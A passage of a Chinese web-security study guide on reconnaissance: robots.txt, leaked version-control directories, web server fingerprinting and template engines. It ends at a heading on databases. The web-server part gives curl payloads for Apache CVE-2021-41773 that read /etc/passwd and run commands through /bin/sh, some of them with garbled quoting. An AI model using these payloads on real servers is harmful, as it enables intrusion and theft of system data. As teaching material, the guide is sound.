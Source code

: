 
**Robots协议**也称为爬虫协议、爬虫规则、机器人协议，是网站国际互联网界通行的道德规范,其目的是保护网站数据和敏感信息、确保用户个人信息和隐私不被侵犯。“规则”中将搜索引擎抓取网站内容的范围做了约定,包括网站是否希望被搜索引擎抓取,哪些内容不允许被抓取,而网络爬虫可以据此自动抓取或者不抓取该网页内容。如果将网站视为酒店里的一个房间,robots.txt就是主人在房间门口悬挂的“请勿打扰”或“欢迎打扫”的提示牌。这个文件告诉来访的搜索引擎哪些房间可以进入和参观,哪些不对搜索引擎开放。

如果在服务器返回的请求中有disallowed之类的提示则代表你可以尝试访问robots协议（/robots.txt）来找找想要的内容。

### （四）版本控制仓库的泄漏

[常见的版本控制软件](https://cloud.tencent.com/developer/article/1184654)

> 版本控制软件提供完备的版本管理功能，用于存储、追踪目录（文件夹）和文件的修改历史，是软件开发者的必备工具，是软件公司的基础设施。版本控制软件的最高目标，是支持软件公司的配置管理活动，追踪多个版本的开发和维护活动，及时发布软件。

通常网站会使用这些版本控制仓库进行动态维护，当我们发现网站存在/.git等目录的泄漏，代表其使用的版本控制仓库已经泄漏地址，我们可以在里面找到很多无法通过正常访问手段查看的内容。

常见的版本控制仓库有CVS、SVN、git、Mercurial。

### （五）WEB服务器

> Web服务器当是指驻留于因特网上某种类型计算机的程序。当Web浏览器(客户端)连接到服务器上并请求文件时，服务器会将处理该请求并将文件发送到该浏览器上，附带的信息会告诉浏览器如何查看该文件(即文件类型)。Web服务器会使用HTTP进行信息交流，因此Web服务器也常被称为HTTP服务器。
>
> Web服务器可驻留于各种类型的计算机，从常见的PC到巨型的UNIX网络,以及其他各种类型的计算机。它们通常经过一条高速线路与因特网连接，如果对性能无所谓，则也可使用低速连接(甚至是调制解调器)。
>
> 目前，市场上Web服务器产品的种类很多，比较著名的有**Apache、Netscape Enterpriise、 Zeus、AOLserver、Roxen WebSerer、Jigsew**等。

一般我们常见的web服务器有Nginx、Apache、IIS（Microsoft），这些web服务器有其各自的特性，作为用户和服务器之间的桥梁，它们的侧重点不一样，Nginx应对静态请求效果很好（如.html），Apache应对动态请求（.js/.php/.asp）远远强于Nginx，所有根据一些我们能在服务器上见到的特征可以估测和判断服务器使用的web服务器类型。

对于**Apache**服务器，有这些漏洞可以尝试在早期版本使用：

CVE-2021-41773（目录穿越）

相应的，对应该漏洞的payload是：

> curl -s --path-as-is “：[PORT]/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
>
> ```
> /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
> 
> ```

> curl -s --path-as-is --data “echo;Command“ ”[IP]：[PORT]/cgi-bin/.%2e/%2e%2e/%2e%2e%2e/bin/sh
>
> ```
> /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo;id'
> ```

CVE-2021-40438（远程执行）

等等。

对于**Nginx**服务器

CVE-2021-23017（DNS解析PoC）

还有因为配置错误而造成的Nginx目录穿越（ [Nginx漏洞修复之目录穿越(目录遍历)漏洞复现及修复](https://blog.csdn.net/weixin_42586723/article/details/122944781)）

等等。

### （六）服务器模板引擎

> 模板引擎（这里特指用于Web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，用于网站的模板引擎就会生成一个标准的HTML文档。

模板引擎本质上就是执行动态渲染，一个热搜榜不可能被写死，每次更改需要程序员自己手动修改，模板引擎可以做到对指定内容实时渲染替换，做到动态更新。

一些常见的模板引擎有lask（python3）、jinja2/flask（python）、smarty（PHP）、Twig（PHP）、Freemarker（JavaEE）、velocity（JavaEE）；

### （七）数据库
